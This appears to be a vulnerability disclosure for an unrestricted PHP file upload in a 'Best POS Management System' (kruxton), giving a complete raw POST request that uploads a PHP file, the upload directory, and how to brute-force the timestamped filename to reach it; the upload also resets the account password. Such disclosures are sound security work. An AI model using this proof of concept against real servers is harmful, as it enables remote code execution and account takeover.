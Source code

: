 1. Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

2. Deploy the system

3. The php file upload point is http://172.31.171.96/kruxton/ajax.php?action=update_account

4. The http message is 

   ```
   POST /kruxton/ajax.php?action=update_account&XDEBUG_SESSION_START=11078 HTTP/1.1
   Host: 172.31.171.96
   Content-Length: 698
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: null
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary91u2mx53LUNjwQtX
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
   Connection: close
   
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="email"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="firstname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="lastname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="password"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="img"; filename="123.php"
   Content-Type: text/plain
   
   <?php phpinfo();?>
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="submit"
   
   提交
   ------WebKitFormBoundary91u2mx53LUNjwQtX--
   
   ```

   ![image-20230311152452601](D:\网安学习\tryCVE\kruxton-1.assets\image-20230311152452601.png)

5. and then the system would create a php file in ./kruxton/assets/upload

   ![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311151123673.png)

6. then access page http://172.31.171.96/kruxton/assets/uploads/1678518540_123.php

   ![image-20230311151402551](D:\网安学习\tryCVE\kruxton-1.assets\image-20230311151402551.png)

   The format of the file name is the timestamp plus the file name of the upload. The value of the timestamp is the timestamp corresponding to the time of the upload moment. You can bursting it in the approximate range.

> notice: the user's username and password change to the values passed at upload time
